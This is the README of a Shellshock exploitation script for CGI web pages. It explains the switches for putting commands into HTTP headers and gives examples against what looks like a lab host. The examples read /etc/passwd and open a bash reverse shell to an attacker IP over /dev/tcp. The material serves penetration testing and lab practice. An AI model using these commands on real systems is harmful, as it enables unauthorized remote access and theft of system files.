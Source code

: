 # http-shellshock.sh

Script to test web pages for shellshock vulnerabilities in headers

Switches

-u = URL
-h = Headings (optional)  to test a specific header feild in address, select number from list: 

      1 = "Content-Type"

      2 = "Referer"

      3 = "Cookie"

-s = Script command (optional) default is /bin/uname -a, Full paths to commands are required


Examples below

   ./http-shellshock.sh -u url [-h number] [-s 'command to run']

   ./http-shellshock.sh -u http://10.10.10.56/cgi-bin/user.sh

Full paths to binaries may be required as web service user may not have loaded profile. The below command tests a url "Content-Type" and cat's the passwd file in /etc.

   ./http-shellshock.sh -u http://10.10.10.56:80/cgi-bin/user.sh -h 1 -s '/bin/cat /etc/passwd'

If the target is vulnerable we might be able to get a reverse shell using the following...
Start a reverse nc listener and run the below changing the attackers IP and port
 
   ./http-shellshock.sh -u http://10.10.10.56:80/cgi-bin/user.sh -h 1 -s '/bin/bash -i >& /dev/tcp/10.10.14.22/443 0>&1'

